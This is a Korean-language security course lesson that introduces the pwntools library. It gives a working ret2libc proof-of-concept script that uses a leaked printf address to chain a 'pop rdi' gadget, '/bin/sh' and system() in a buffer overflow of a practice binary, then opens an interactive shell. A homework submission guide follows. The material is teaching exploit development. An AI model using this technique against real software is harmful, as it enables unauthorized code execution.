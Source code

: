 #### POC 코드

printf 주소값을 받은 후 system 함수와 /bin/sh 문자열의 주소값, "pop rdi ; ret" 과의 거리를 계산해서 주소값을 도출해야 하기 때문에 일반적인 쉘 상에서는 익스플로잇 하기가 어렵고, `pwntool` 이라는 파이썬 패키지를 사용해보자. pwn 이라는 용어는 소유하다는 뜻의 own 에서 파생된 은어로써 권한이 없는 것을 소유해내다 라는 식의 의미로 생각하면 된다. 

##### pwntool

[pwntool](https://github.com/Gallopsled/pwntools) 은 익스플로잇 코드 개발 전용 라이브러리로써 POC 코드, 익스플로잇 코드를 개발할 때 필수적으로 사용되는 라이브러리이다. POC 코드에 필요한 `pwntool` 의 함수들만 간단히 설명을 하고 넘어가자. 

`process(argv)` : 익스플로잇 대상이 되는 실행파일을 실행하고 프로세스를 다룰 수 있도록 `Processes` 인스턴스를 반환한다. 

`recvuntil(delims)` : delims 이 나올 때까지 데이터를 받아서 반환한다. 

`p64(number)` : number 를 64 비트 형식으로 패킹(packing)한다. 

`send(data)` : data 를 프로세스에 입력한다. 

이 함수들을 사용해서 익스플로잇을 시도해보자. `recvuntil` 함수로 'printf() address : ' 라는 문자열까지 데이터를 받은 후 '\n' 까지 데이터를 받으면 정확하게 printf 함수의 주소값을 반환 받을 수 있다. 

그러면 그 주소값을 활용하여 페이로드를 제작한 훟 `send` 함수로 페이로드를 보내서 익스플로잇을 시도한다. 쉘이 실행될 것이 예상되는 시점이기 때문에 `interactive` 함수로 프로세스에 입력 스트림과 출력 스트림을 연다. 

```python
from pwn import *

p = process('./bof11')

p.recvuntil('printf() address : ')
printf_addr = p.recvuntil('\n')
printf_addr = int(printf_addr, 16)

sys_addr = printf_addr + (-66672)
binsh = printf_addr + (1275223)
poprdi = printf_addr + (-214782)
distance_to_returnAddr = 24

exploit = "A" * distance_to_returnAddr
exploit += p64(poprdi)
exploit += p64(binsh)
exploit += p64(sys_addr)
p.send(exploit)

p.interactive()
```

---

## 과제 

### 과제 가이드 

1. [HW-9.md](HW-9/HW-9.md) 파일의 지시를 따르는 것이 과제이다. (발표를 하며 설명을 할 수 있어야 합니다)

2. 과제 파일은 [HW-9](HW-9) 디렉토리에 만들어야 한다. 

3. 과제 파일이 완성되면 다음 명령어를 참고하여 완성된 과제를 푸쉬한다. 

```shell
cd /path/to/security
git add .
git commit -m "complete HW-9"
git push -u origin master
```

4. 마지막으로 `pull requests` 를 한다. 
